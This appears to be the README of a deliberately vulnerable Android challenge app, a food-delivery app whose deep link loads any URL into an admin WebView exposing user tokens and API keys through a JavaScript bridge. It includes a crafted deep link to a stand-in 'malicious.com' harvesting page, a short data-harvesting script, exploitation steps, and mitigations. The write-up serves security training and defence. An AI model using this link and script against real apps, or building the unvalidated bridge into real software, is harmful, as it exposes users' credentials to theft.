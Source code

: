 # oxo-android-ben49 - Deeplink Information Disclosure

## Challenge Details

### Description

This Android application demonstrates a critical **Deeplink Information Disclosure** vulnerability. The app's deep link handling mechanism exposes sensitive administrative interfaces and allows unauthorized access to privileged WebView components containing confidential user data and system information.

### Primary Vulnerability: Deeplink Information Disclosure

The application's `DeepLinkRouter.java` contains a dangerous information disclosure vulnerability through its deep link processing mechanism. Specifically:

**Critical Flow Path (`DeepLinkRouter.java:84-87`)**:
- The `handleSupportDeepLink()` method accepts a "support" host with an "admin" section parameter
- When `section=admin` and `custom_url` is provided, it directly loads the URL into `AdminWebViewActivity`
- This bypasses normal authentication and access controls

**Information Disclosure Impact (`AdminWebViewActivity.java:31-38`)**:
- The WebView exposes a JavaScript interface with `getUserData()` and `getSystemInfo()` methods
- These methods return sensitive information including:
  - User tokens: `"secret_token_123"`
  - API keys: `"sk_live_12345"`
  - User email addresses and admin privileges
  - System debug information

### Vulnerability Types and Categories
- **Type:** Information Disclosure via Deeplink Manipulation  
- **Primary Category:** Mobile Deep Link Security
- **Impact:** Unauthorized access to sensitive user data and system credentials

### Difficulty
High

## Application Features

This food delivery app includes:
- Food menu browsing with RecyclerView
- Shopping cart functionality
- Deep link routing for various app sections
- Admin WebView interface with JavaScript bridge
- Support for promotional and support deep links

## Build Instructions

This project uses Android Studio with Java.

1. Open the project in Android Studio
2. Update your SDK versions as required (compileSdkVersion >= 36 recommended)
3. Ensure minimum SDK version 31 is available
4. Build and deploy the app to an emulator or Android device

### Dependencies
- AndroidX AppCompat
- Material Design Components
- ConstraintLayout
- RecyclerView

## Technical Analysis

### Deeplink Information Disclosure Flow

The vulnerability exploits the following execution path:

1. **Deep Link Entry Point** (`AndroidManifest.xml:30-37`):
   ```
   foodapp://support/admin?section=admin&custom_url=https://malicious.com/harvest.html
   ```

2. **Routing Logic** (`DeepLinkRouter.java:80-91`):
   - `handleSupportDeepLink()` extracts the `section` and `custom_url` parameters
   - No validation of the `custom_url` parameter when `section=admin`
   - Direct call to `loadAdminWebView()` with untrusted URL

3. **Privileged WebView Instantiation** (`DeepLinkRouter.java:123-128`):
   - Creates intent for `AdminWebViewActivity` 
   - Sets `enable_js_interface=true` flag
   - Passes unvalidated URL to privileged WebView

4. **Information Disclosure** (`AdminWebViewActivity.java:19-26`):
   - Enables JavaScript interface with `Admin` object
   - Exposes `getUserData()` and `getSystemInfo()` methods to any loaded content
   - No origin validation or access controls

### Exposed Sensitive Data

The JavaScript interface exposes:
- **User Credentials**: userId, email, authentication token
- **API Keys**: Live production API key (`sk_live_12345`)
- **System Information**: Version, debug status, internal configuration

### Attack Scenarios

**Scenario 1: Direct Information Harvesting**
```javascript
// Malicious webpage content
var userData = Admin.getUserData();
var systemInfo = Admin.getSystemInfo();
// Exfiltrate data to attacker-controlled server
```

**Scenario 2: Privilege Escalation**
- Attacker gains admin-level access through exposed interface
- Can potentially interact with other privileged app components

## Exploitation Steps

1. **Craft Malicious Deep Link**: Create a deep link pointing to attacker-controlled webpage
2. **Deploy Harvesting Script**: Host JavaScript that calls exposed interface methods
3. **Trigger Deep Link**: Use various methods (email, SMS, malicious app) to trigger the link
4. **Data Exfiltration**: Collect exposed sensitive information

## Impact Assessment

- **Confidentiality**: HIGH - Direct exposure of user tokens and API keys
- **Integrity**: MEDIUM - Potential for privilege escalation attacks  
- **Availability**: LOW - No direct impact on service availability

## Mitigation Strategies

### Immediate Fixes
1. **Remove JavaScript Interface**: Disable or remove the Admin JavaScript interface entirely
2. **URL Validation**: Implement strict allowlist validation for admin WebView URLs
3. **Authentication Gates**: Require proper authentication before accessing admin features

### Security Improvements
1. **Deep Link Validation**: Implement comprehensive input validation for all deep link parameters
2. **Origin Verification**: Validate the source of deep link requests
3. **Least Privilege**: Remove unnecessary privileged interfaces from WebViews